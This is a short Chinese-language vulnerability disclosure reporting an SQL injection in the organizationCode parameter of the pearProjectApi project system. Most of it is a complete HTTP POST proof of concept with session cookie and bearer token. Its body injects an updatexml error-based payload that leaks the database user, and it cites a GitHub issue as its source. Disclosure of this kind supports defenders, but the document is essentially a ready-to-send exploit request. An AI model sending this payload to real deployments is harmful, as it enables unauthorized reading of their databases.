 # pearProjectApi系统接口organizationCode存在SQL注入漏洞

## poc

```javascript
POST /index.php/project/project/selfList HTTP/2
Host: 
Cookie: se0d06741=5rkiv0sqvn1otra27va1jlfgfo
Content-Length: 168
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Organizationcode: 6v7be19pwman2fird04gqu53
Sec-Ch-Ua-Mobile: ?0
Authorization: bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiIiLCJhdWQiOiIiLCJpYXQiOjE2NzY5NDU0MTAsIm5iZiI6MTY3Njk0NTQxMCwiZGF0YSI6eyJjb2RlIjoiNnY3YmUxOXB3bWFuMmZpcmQwNGdxdTUzIn0sInNjb3BlcyI6ImFjY2VzcyIsImV4cCI6MTY3NzU1MDIxMH0.G18ME7UI0EHAxaTSV751smgNfETb1Q0O0e9mv-6L42I
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: application/json, text/plain, /
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

delete=0&all=0&page=1&pageSize=20&organizationCode=6v7be19pwman2fird04gqu53'+and+updatexml(1,concat(0x7e,(select+user()),0x7e),1)%23&memberCode=6v7be19pwman2fird04gqu53
```

![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501241002368.png)

## 漏洞来源

- https://github.com/a54552239/pearProjectApi/issues/31
